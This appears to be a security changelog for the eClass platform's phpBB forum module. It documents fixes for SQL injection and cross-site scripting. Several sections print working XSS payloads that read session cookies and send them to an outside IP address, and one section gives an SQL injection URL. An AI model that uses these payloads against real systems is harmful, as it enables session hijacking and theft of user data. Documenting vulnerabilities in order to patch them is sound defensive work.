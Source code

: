 # Changelog for eClass


### Changes in /include/lib/
#### Changes in main.lib.php
 * Changed db_query to not display error info of sql_queries

### Changes in /module/phbb/
#### viewforum.php && viewtopic.php
  * Added checking if $_GET['forum'] is a number and complies with the UTF-8 standard lines 75 - 81. This should prevent this page from sql injections as well as non persistent XSS attacks
  * possible XSS attack
  ``` javascript  
  http://geza.csec.gr/modules/phpbb/viewforum.php?forum=
  <script>window.onload=function() {
  console.log('hey');
  var logo = document.getElementById("logo");
  var link = "http://195.134.67.223:8095?";
  var cookie = document.cookie.split(";");
  link = link.concat(cookie);
  logo.href=link;
  }</script>
  ```  

#### newtopic.php & functions.php & reply.php
  * We can have injections here from $_GET['forum'] attribute. More specifically if we send non numeric values through the $_GET we have an sql error reporting rendered. This is wrong.
  We added lines 83-91 in order to be sure that the input incoming from the $_GET['forum'] is correct and we suppressed the sql error output  
   ** hint ** sql possible injection here http://geza.csec.gr/modules/phpbb/newtopic.php?forum=1%27%20%20or%20%27a%27

  * The above xss attack can be used here
  * Also this attack when selecting html in the xinha editor
  ```html  
  <html>
  <script>window.onload=function() {
  console.log('hey');
  var link = "http://195.134.67.223:8095?";
  var cookie = document.cookie.split(";");
  link = link.concat(cookie);
  window.location = link;
  }</script>
  </html>
  ```  
  In order to stop incoming xss attacks we have added a function in functions.php called stripUnwantedTagsAndAttrs which allows only specific tags to  be accepted. Possibly here if we change the encoding we might have problems. **check this again**  
  * Actually we have to remove that since this function removes completely user input if the text is plain text. So we have to use htmlescapechars. So we used htmlescapechars when getting the message as well as also when rendering the reply
  * subject seems to be safe with the strip tags function

### reply.php & new topic.php
  * Possible persistent xss attack here by selecting html in editor and then writing:
  ```html  
  <html>
  <script>window.onload=function() {
  console.log('hey');
  var link = "http://195.134.67.223:8095?";
  var cookie = document.cookie.split(";");
  link = link.concat(cookie);
  window.location = link;
  }</script>
  </html>
 ```  

 ### editpost.php  
  * we did the same here. We applied sanitization tehniques to the url parameters as well as htmlescapechars when rendering the editpost because the script could be executed on the admin side and take control of session.
  Changes on lines 80 - 103 and changes on 354 & 362
